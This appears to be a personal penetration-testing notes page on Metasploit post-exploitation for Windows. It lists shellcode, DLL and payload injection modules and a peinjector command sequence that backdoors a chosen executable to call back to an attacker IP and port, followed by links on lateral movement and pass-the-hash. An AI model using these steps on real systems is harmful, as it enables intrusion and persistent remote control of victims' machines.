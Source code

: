 # Metasploit

Search Tag(s): #metasploit-framework

## 01 - Metasploit

TODO: Go through every MSF module

use post/windows/manage/exec_powershell

```
post/windows/manage/multi_meterpreter_inject

https://www.offsec.com/metasploit-unleashed/windows-post-manage-modules/
```

```
msf > use exploit/windows/local/payload_inject

options
```

run post/windows/manage/shellcode_inject

post/windows/manage/reflective_dll_inject

### Peinjector

```
meterpreter > load peinjector

Peinjector Commands
===================

    Command       Description
    -------       -----------
    injectpe      Inject a shellcode into a given executable
..[omitted]..
```

TODO: Fill this info

```
meterpreter > injectpe
```

```
msf post(windows/manage/peinjector) > set targetpe C:\\path\\to\\to\\program.exe

msf post(windows/manage/peinjector) > set session <session_ID>

msf post(windows/manage/peinjector) > set lhost <attacker_IP>

msf post(windows/manage/peinjector) > set lport <attacker_PORT>

msf post(windows/manage/peinjector) > run
```

---
## References

### Shell is Coming

- [Shell is Coming: Metasploit - Getting Ingress firewall rules](https://www.shelliscoming.com/2013/07/getting-ingress-firewall-rules.html)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

- [Hacker Cool: Shellcode Injection with Metasploit](https://www.hackercoolmagazine.com/metasploit-shellcode-injection-module/)

- [Hacking Articles: Metasploit for Pentester - Inject Payload into Executable](https://www.hackingarticles.in/metasploit-for-pentester-inject-payload-into-executable/)

- [Rapid7: Metasploit Framework - Build .NET Code](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/powershell/build_net_code.md)

- [CrowdStrike: Getting the bacon from Cobalt Strike Beacon](https://www.crowdstrike.com/blog/getting-the-bacon-from-cobalt-strike-beacon/)

- [Infosecmatter: RCE on Windows From Linux Part 1 Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- [CertCube Pass the Hash in Windows 10](https://blog.certcube.com/pass-the-hash-in-windows-10/)